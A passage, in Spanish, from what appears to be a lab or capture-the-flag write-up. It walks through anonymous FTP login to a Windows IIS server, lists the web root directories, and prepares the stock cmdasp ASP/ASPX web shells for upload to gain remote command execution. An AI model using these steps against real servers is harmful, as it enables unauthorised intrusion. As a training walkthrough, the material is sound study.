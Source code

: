Como hay un `IIS` al conectarnos por `FTP` podemos ver las `rutas` del `IIS`, por lo tanto si podemos `subir` un `archivo` con extensión `.asp` o `.aspx` probablemente obtengamos `ejecución remota de comandos`

```
# ftp 10.129.155.162
Connected to 10.129.155.162.
220 Microsoft FTP Service
Name (10.129.155.162:justice-reaper): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -a
229 Entering Extended Passive Mode (|||49176|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> cd aspnet_client
250 CWD command successful.
ftp> ls -a
229 Entering Extended Passive Mode (|||49178|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          system_web
226 Transfer complete.
ftp> cd system_web
250 CWD command successful.
ftp> ls -a
229 Entering Extended Passive Mode (|||49180|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          2_0_50727
226 Transfer complete.
ftp> cd 2_0_50727
250 CWD command successful.
ftp> ls -a
229 Entering Extended Passive Mode (|||49182|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
```
## Abusing FTP

Localizamos `cmdasp` y `copiamos` estos `archivos` en nuestro `directorio actual` de trabajo desde el cual nos vamos a `conectar` por `FTP`

```
# locate cmdasp              
/usr/share/webshells/asp/cmdasp.asp
/usr/share/webshells/aspx/cmdasp.aspx

# cp /usr/share/webshells/asp/cmdasp.asp .
# cp /usr/share/webshells/aspx/cmdasp.aspx .
```
